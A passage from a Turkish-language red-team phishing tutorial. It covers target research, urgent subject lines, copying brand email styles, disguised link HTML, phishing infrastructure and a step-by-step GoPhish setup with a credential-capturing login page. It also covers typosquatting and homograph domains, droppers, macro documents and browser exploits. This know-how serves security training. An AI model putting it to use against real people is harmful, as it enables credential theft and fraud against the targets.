+ Kurbanın yerel işletmeler veya markalar hakkında yapmış olabileceği incelemeler için Google'da kurbanın adı ve kabaca konumu aranabilir.
+ Tedarikçileri bulmak için kurbanın ticari web sitesine bakın.
+ Kurbanın iş arkadaşlarını bulmak için LinkedIn'e bakın.

Daha fazlası da size kalıyor. Tamamen kurbanımıza bağlı.

#### Konu

Konuyu oldukça acil, endişe verici veya kurbanın merakını uyandıracak bir konu olarak belirlemelisiniz, böylece kurbanın bunu görmezden gelmemesi ve hızlı bir şekilde harekete geçmesi sağlanır.

Bunun örnekleri şunlar olabilir:

+ Hesabınızın güvenliği ihlal edildi.
+ Kargonuz geri gönderildi.
+ Personel maaş bordrosu bilgileri (iletmeyin!)
+ Fotoğraflarınız topluluğa yayınlandı.

#### İçerik

Bir marka veya tedarikçinin kimliğine bürünüyorsanız, onların standart e-posta şablonlarını ve markalarını (stil, logo resimleri, imzalar vb.) araştırmak ve içeriğinizin onlarınkiyle aynı görünmesini sağlamak, kurbanın herhangi bir şeyden şüphelenmemesini sağlayacaktır. Bir kişinin veya iş arkadaşının kimliğine bürünüyorsanız onlarla iletişime geçmek faydalı olabilir; Birincisi, şablonlarında bir markalama olabilir, belirli bir e-posta imzası olabilir veya hatta kendilerinden nasıl bahsettikleri gibi küçük bir şey bile olabilir; örneğin, birinin adı Yiğit olabilir ve e-postası yigit@sirket.com olabilir. Yine de imzalarında "Saygılarımla, Yiğit." yazabilir. Bu ufak tefek şeyleri öğrenmek bazen kurban üzerinde oldukça dramatik psikolojik etkiler yaratabilir ve onları e-postayı açıp harekete geçmeye daha fazla ikna edebilir.

Veri toplamak veya kötü amaçlı yazılım dağıtmak için sahte bir web sitesi kurduysanız, bu siteye olan bağlantılar, bağlantı metni kullanılarak gizlenmeli ve "Buraya Tıklayın" yazan bir metinle veya bunu yansıtan doğru görünümlü bir bağlantıyla değiştirilmelidir, Örneğin:

     <a href="http://sahtesite.com">Burayı Tıklayın</a>

     <a href="http://sahtesite.com">https://sirket.com</a>

### Phishing Altyapısı

Başarılı bir phishing kampanyası başlatmak için belirli miktarda altyapının uygulamaya konması gerekecektir.

#### Domain Adı

Orijinal görünen bir domain adını veya başka bir domain'in kimliğini taklit eden bir domain'i kayıt ettirmemiz gerekir.

#### SSL/TLS Sertfikaları

Seçtiğiniz domain için SSL/TLS sertifikaları oluşturmak, saldırıya ekstra bir kimlik doğrulama katmanı ekleyecektir.

#### Email Server'ı / Hesabı

Bir email sunucusu kurmanız veya bir SMTP email sağlayıcısına kaydolmanız gerekir.

#### DNS Kayıtları

SPF, DKIM, DMARC gibi DNS Kayıtlarını ayarlamak, emaillerinizin teslim edilebilirliğini artıracak ve spam klasörü yerine gelen kutusuna girmelerini sağlayacaktır.

#### Web Sunucuları

Phishing web sitelerinizi barındırmak için web sunucuları kurmanız veya bir şirketten web barındırma hizmeti satın almanız gerekir. Web sitelerine SSL/TLS eklemek, onlara ekstra bir özgünlük katmanı sağlayacaktır.

#### Analitik Sonuçlar

Phishing kampanyası kırmızı ekip çalışmasının bir parçası olduğunda analiz bilgilerinin saklanması daha önemlidir. Gönderilen, açılan veya tıklanan e-postaları takip etmek için bir şeye ihtiyacınız olacak. Ayrıca bunu, kullanıcıların kişisel bilgilerini sağladığı veya yazılım indirdiği phishing web sitelerinizdeki bilgilerle de birleştirmeniz gerekir.

### Kullanışlı ve Otomatize Edilmiş Yazılımlar

Yukarıdaki altyapılardan bazıları aşağıdaki araçlar kullanılarak hızlı bir şekilde otomatikleştirilebilir.

#### GoPhish (Açık Kaynaklı Phishing Framework)

https://getgophish.com

GoPhish, phishing kampanyalarının oluşturulmasını daha kolay hale getiren web tabanlı bir framework'tür. GoPhish, email göndermek için SMTP sunucu ayarlarınızı saklamanıza olanak tanır ve basit bir WYSIWYG (What You See Is What You Get)(Ne Görürseniz Onu Alırsınız) düzenleyicisini kullanarak email şablonları oluşturmak için web tabanlı bir araca sahiptir. Ayrıca emaillerin ne zaman gönderileceğini planlayabilir ve kaç emailin gönderildiğini, açıldığını veya tıklandığını gösteren bir analiz panosuna sahip olabilirsiniz.

__GoPhish Kullanımı__

GoPhish'i kendi sitesinden son sürümünü indirip gophish binary'sini çalıştırıyoruz. kendi local makinemizde 3333. portta bir http web uygulaması çalışmaya başlayacak.
http://127.0.0.1:3333 adresini ziyaret edip kullanıcı adı olarak admin, şifre olarak binary loglarında gözüken şifreyi giriyoruz. Bu şifreyi kendimiz ayarlayabiliyoruz giriş yapınca.

Daha sonra profillerimizi ayarlamamız gerekecek. İlk olarak solda yer alan 'Sending Profiles' kısmına gelelim. Bu bölümde emaillerin gönderileceği SMTP server'ını ayarlamamız gerekiyor. Yeni bir profil oluşturmak için 'New Profile' diyelim.

Name olarak istediğimiz adı verebiliriz. From olarak emailin nereden geldiğini belirtebiliriz. İnandırıcı olması için şirketle aynı yapabiliriz. Host ise SMTP sunucusunun adresi olacaktır. Username ve password bilgileri SMTP sunucunun kimlik bilgileridir. Bunları doldurduktan sonra 'Save Profile' diyip burayı kapatabiliriz.

'Landing Pages' kısmına gelelim. Burada phishing websitemizi ayarlayacağız. Yani kurbanın linke bastıktan sonra önüne geleceği sahte site. 'New Page' diyip Name kısmına istediğimiz şeyi yazabiliriz. HTML kısmında websitemizin HTML'ini yazmamız gerekiyor. HTML yazmak için Source butonuna tıklayıp yazabiliriz. Örnek olması amacıyla aşağıda örnek bir login HTML :

     <!DOCTYPE html>
     <html lang="en">
     <head>
     <meta charset="UTF-8">
     <title>ACME IT SUPPORT - Admin Panel</title>
     
     </head>
     <body>
     <h2>ACME IT SUPPORT</h2>
     <h3>Admin Panel</h3>
     <form method="post">
          

               
Username:

               
<input name="username">

               
Password:

               
<input type="password" name="password">

               
<input type="submit" value="Login">

          

     </form>
     </body>
     </html>

Daha sonra Source butonuna tekrar tıkladığımızda web sitemizin önizlemesini görebiliriz :

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>ACME IT SUPPORT - Admin Panel</title>
    
</head>
<body>
    <h2>ACME IT SUPPORT</h2>
    <h3>Admin Panel</h3>
    <form method="post">
        

            
Username:

            
<input name="username">

            
Password:

            
<input type="password" name="password">

            
<input type="submit" value="Login">

        

    </form>
</body>
</html>

-----------------------------

Capture Submitted Data'ya tik atıp şifreye de tik atalım. Ve 'Save Page' diyip kaydedelim :

Email Templates'e geçelim. Burada kurbana gidecek olan email'i ayarlayacağız. 'New Template' diyip yeni bir email template ekleyeceğimizi söyleyelim. Önümüze açılan formda Name kısmına istediğimiz şeyi yazabiliriz. Subject kısmına konuyu yazıyoruz. HTML kısmına gelelim. Source'a tıklayıp buraya ilk olarak phishing sitemizin linkini eklememiz gerekiyor. Bu yüzden üstteki link tuşuna basıp önümüze gelen formda display text olarak orijinal websitesini yazabiliriz ki inandırıcı olsun. protocol kısmında other ve URL kısmında {{.URL}} olmalı.

Source'a tekrar basıp email'e inandırıcı yazı, resim vb. ekleyebiliriz :

'Save Template' diyip burayı kapatabiliriz.

Şimdi Users & Groups'a gelelim. Burada emailin gönderileceği hedefleri belirteceğiz. 'New Group' diyip önümüze gelen formda Name kısmında istediğimiz şeyi yazabiliriz. Daha sonra email kısmında hedef/hedeflerimizin email adreslerini yazıp Add diyerek ekliyoruz.

Save Changes diyip burayı da kapatabiliriz.

Şimdi gelelim son adıma, Kampanyayı başlatmaya. Campaigns kısmına gelip New Campaign diyelim. Name olarak istediğimizi girelim. Email olarak önceden oluşturduğumuz Template'ii seçelim. Landing Page olarak da önceden oluşturduğumuzu seçelim. URL olarak gophish dinleyicimizin adresini girelim. Launch Date ve Send Emails By kısımları emaillerin gönderileceği tarihleri ile ilgili ayarlardır. Sending Profile olarak önceden oluşturduğumuz profili girelim. Groups olarak da aynı şekilde. Ve Launch Campaign diyerek kampanyayı başlatalım.

Sonuçların olduğu yere yönlendirileceğiz. Burada gönderilen emaillerin iletilip iletilmediği, tıklanıp tıklanmadığı vb. sonuçları görebiliriz. Eğer biri tıklarsa aşağıdaki gibi iletilen verileri görebiliriz :

#### SET (Social Engineering Toolkit) (Sosyal Mühendislik Araçkiti)

https://www.trustedsec.com

SET çok sayıda araç içerir, ancak phishing için önemli olanlardan bazıları, spear-phishing saldırıları oluşturma ve kurbanları kimlik bilgilerini girmeleri için kandırmak amacıyla yaygın web sitelerinin sahte sürümlerini dağıtma yeteneğidir.

### Phishing Domain'i Seçmek

Saldırınızı başlatmak için doğru phishing domaininizi seçmek, hedefinize karşı psikolojik üstünlük sağlamanız açısından çok önemlidir. Kırmızı takım katılımı, mükemmel domain adını seçmek için aşağıdaki yöntemlerden bazılarını kullanabilir :

#### Expired (Süresi Dolmuş) Domainler

Gerekli olmasa da, geçmişi olan bir domain satın almak, spam filtreleri söz konusu olduğunda domaininizin daha iyi puan almasına yol açabilir. Spam filtreleri, geçmişi olanlara kıyasla yepyeni alan adlarına güvenmeme eğilimindedir.

#### Typosquatting (Yazım Hatası) Olan Domainler

Yazım hatası, kayıtlı bir domainin, kimliğine bürünmeye çalıştığınız hedef domain'e çok benzemesidir. Rastgele bir internet kullanıcısının arama yaparken yanlış tuşa basarsa da bu yöntem işe yarayabilir. Yaygın yöntemlerden bazıları şunlardır :

+ Misspelling (Yazım Hatası) : google.com yerine goggle.com
+ Ek Nokta : google.com yerine go.ogle.com
+ Leet : google.com yerine g00gle.com
+ Ek harfler : google.com yerine googles.com
+ Ek Kelimeler : google.com yerine googleresults.com

Bu değişiklikler gerçekçi görünmeyebilir, ancak ilk bakışta insan beyni boşlukları doldurma ve görmek istediğini, doğru domain adını görme eğilimindedir.

#### TLD (Top Level Domain) Alternatifleri

TLD (Üst Düzey Domain), bir domainin .com .net .co.uk .org .gov e.t.c kısmıdır; şu anda TLD'nin 100'lerce çeşidi vardır. Domain seçmenin yaygın bir yolu aynı adı ancak farklı bir TLD ile kullanmaktır. Örneğin, google.com'u taklit etmek için google.co.uk adresini kaydedin.

#### IDN Homograf Saldırısı/Script Spoofing

Başlangıçta domainler a-z ve 0-9 arası Latin karakterlerinden oluşuyordu, ancak 1998'de Arapça, Çince, Kiril, İbranice ve daha fazlası gibi diğer dillerden dile özgü yazı veya alfabeyi desteklemek için IDN (Internationalized Domain Name) (Uluslararası Domain Adı) uygulandı. IDN uygulamasından kaynaklanan bir sorun, farklı dillerdeki farklı harflerin aslında aynı görünebilmesidir. Örneğin, Unicode karakter U+0430 (Kiril küçük harfi a), İngilizce'de kullanılan Unicode karakter U+0061 (Latince küçük harf a) ile aynı görünerek, saldırganların bir başkasıyla neredeyse aynı görünen bir domain'i kaydetmesine olanak tanır.

https://www.malwarebytes.com/blog/news/2017/10/out-of-character-homograph-attacks-explained

### Diğer Phishing Yöntemleri

#### Dropper'lar

Dropper'ların kendileri genellikle antivirüsler tarafından yakalanmazlar. Bunlar payload'ı internette hacker'ın kontrol ettiği bir sunucudan indirirler ve belleğe yüklerler. (Teknikler ile) Böylece herhangi bir antivirüse yakalanmadan payloadlar çalışabilir.

#### Makrolu Office Programları

Makro bulunduran office programları ustalıkla yürütülen bir sosyal mühendislik sonucunda kurbana yedirilip payload çalıştırılabilir. Örnek bir senaryoda insan kaynaklarına işçi_maaşları.xlsx şeklinde bir dosya atılıyor. Eğer bu dosya açılırsa içindeki makro sayesinde kalıcı bir payload elde edilebilir.

#### Browser Exploitleri

Bir kurbanın bilgisayarının kontrolünü ele geçirmenin başka bir yöntemi de tarayıcı exploitleri olabilir; Bu, tarayıcının kendisinde (Internet Explorer/Edge, Firefox, Chrome, Safari vb.) bulunan, saldırganın kurbanın bilgisayarında uzaktan komutlar çalıştırmasına olanak tanıyan bir güvenlik açığıdır.

Sahada kullanılan eski teknoloji hakkında önceden bilginiz olmadığı sürece, tarayıcı açıklarından yararlanma, genellikle kırmızı ekip etkileşiminde izlenecek yaygın bir yol değildir. Pek çok tarayıcı güncel tutulur, tarayıcıların geliştirilme şekli nedeniyle kötüye kullanılması zordur ve açıklardan yararlanmalar geliştiricilere bildirildiğinde çok değerlidir.

Bununla birlikte, bu gerçekleşebilir ve daha önce de belirtildiği gibi, sitedeki eski teknolojileri hedeflemek için kullanılabilir, çünkü muhtemelen tarayıcı yazılımının ticari yazılım/donanımla uyumsuzluk nedeniyle güncellenememesi gibi büyük kurumlarda oldukça sık meydana gelebilir. Eğitim, hükümet ve özellikle sağlık hizmetleri hedeflenebilir.

Genellikle kurban, kendisini saldırganın kurduğu belirli bir web sitesini ziyaret etmeye ikna eden bir e-posta alır. Kurban siteye girdiğinde, exploit tarayıcıya karşı çalışır ve artık saldırgan, kurbanın bilgisayarında dilediği komutları çalıştırabilir.

Bunun bir örneği, Microsoft sistemlerinde bulunan ve yalnızca bir web sitesini ziyaret ederek kod yürütülmesine izin veren bir güvenlik açığı olan Eylül 2021 tarihli CVE-2021-40444'tür.